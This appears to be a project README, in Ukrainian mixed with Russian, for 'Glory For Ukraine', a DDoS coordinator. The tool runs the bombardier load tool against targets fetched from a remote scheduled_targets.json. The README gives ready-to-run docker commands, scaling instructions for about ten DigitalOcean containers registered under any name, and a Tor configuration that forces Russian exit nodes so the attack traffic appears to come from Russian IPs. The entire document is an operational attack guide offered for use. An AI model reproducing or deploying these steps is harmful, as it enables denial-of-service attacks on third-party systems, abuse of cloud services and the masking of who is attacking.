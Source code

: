 # Glory For Ukraine

DDOS координатор, використовуючий bombardier на один з хостів указаний в scheduled_targets.json, скачаний з https://gloryforukraine.pages.dev/scheduled_targets.json

## Як використати

Рабоча станція (Windows, Linux, MacOS):
 - https://github.com/arhelmus/gloryforukraine/releases/download/v0.1.0/gloryforukraine.zip

Docker:

Запуск через докер: `docker pull archdev/gloryforukraine:latest && docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine:latest`

Билд кода:

- install NodeJS 16+
- git clone
- cd gloryforukraine
- npm i
- `./scripts/launch.sh` or `.\scripts\launch.bat`

# Як засетапи Gloryforukraine на Digigal Ocean App Platform

1. Зареєструйте аккаунт на Digital Ocean:
    [Посилання за рефералом](https://m.do.co/c/aa9c8e1fc61f) - дає $100 на рахунок
    По особистим данним - будь яке ім'я (можна не своє) АЛЕ: робочий імейл до якого у вас є доступ - він потрібен щоб залогінитись по лінку який прийде вам на імейл (2FA)
    Також вам потрібна робоча банківська карта (укр карти Моно на Привата раніше працювали, віртуальні карти теж UK банків теж працюють)
    (Гроші НЕ БУДУТЬ зніматись відразу, лише через місяц)
2. Створіть новий апчик в Create > Apps
3. Виберіть Docker Hub
4. в Image введіть: `archdev/gloryforukraine`, tag - залишіть пустим (`latest`)
5. ОБОВ'ЯЗКОВО: Type > **Worker** (по замовчуванню там Web Service)
6. Також додайте `Environment Variables`: `SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json` та `PARALLEL_FACTOR=5`
7. Виберіть Регіон - можна Європу або Азію - будь який
8. Finalise and Launch - виберіть аккаунт Pro - і в Containers: Pro - штук 10 має вистачити

# Як використовувати Gloryforukraine з TOR (атака буде йти с росiйских IP)
1. Встановiть TOR. `sudo apt install tor`
2. Заредагуйте конфіг /etc/tor/torrc:
    `sudo vi /etc/tor/torrc`
    Розкоментуйте `#ControlPort 9051`

    Знайдіть `#CookieAuthentication 1` Розкоментуйте, та змініть 1 на 0.

    В кінець файла додайте
    `ExitNodes {RU}`
    `StrictNodes 1`

 4. Перезавантажте сервіс ТОР `sudo /etc/init.d/tor restart`.


5. Готово! Теперь ви можете запустити скрипт через torify. Наприклад: `sudo torify docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`.
